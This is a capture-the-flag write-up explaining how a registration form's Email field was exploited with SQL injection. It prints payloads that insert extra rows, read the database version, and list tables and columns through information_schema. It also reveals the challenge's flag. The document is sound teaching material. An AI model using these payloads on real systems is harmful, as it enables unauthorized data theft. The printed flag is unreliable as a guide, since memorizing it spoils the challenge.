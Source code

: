 # SQL Injection - Insert

This challenge has two features: Authentication and Register.

![anh1]()

To exploit this website, you must insert your payload using the register future. Firstly, I created an account, then logged into it. 

![anh2]()

After I had logged in, I saw that the Username field and the Email field is displayed. So the inject point would be one of them. It took me some time to realize that the Email field is injectable. When I entered `'` into the Email fields it would tell me that `request failed`, but when I entered `"`, nothing would happend => The query is written using `'`, not `"`.

The query when I created a new account must be like this: `INSERT INTO table_name VALUES (‘username’,’password’,’email’)`. Then we can inject the payload like this: `'),(‘vnvn’,’vnvn’,’vnvn’)#`. The query will be `INSERT INTO table_name VALUES (‘username’,’password’,’'),(‘vnvn’,’vnvn’,’vnvn’)# ‘)` and we can insert 2 records using just one SQL command. The `')` at the end is filtered out by the `#`.

After that I tried to login using the username/password is vnvn/vnvn to check if the injection is worked or not. I think you already know the answer :D

Next, I checked SQL version using `'),('id1','pw1',(select version()))#`

![anh3]()

Then I checked for the all the table name using `information_schema`. The payload is `'),('id2','pw2',(select group_concat(table_name) from information_schema.tables where table_schema=database()))#`. Please remember to use `group_concat` because if the result contains more than one row, you will get `Request failed` message.

![anh4]()

I got two table name, that is `membres` and `flag`. I checked for the `flag` table first. 
`'),('id3','pw3',(select group_concat(column_name) from information_schema.columns where table_name='flag'))#`

![anh5]()

The last thing is to get the flag using `'),('id4','pw4',(select group_concat(flag) from flag))#`

![anh6]()

and solve this challenge

![anh7]()

The flag is `moaZ63rVXUhlQ8tVS7Hw`.

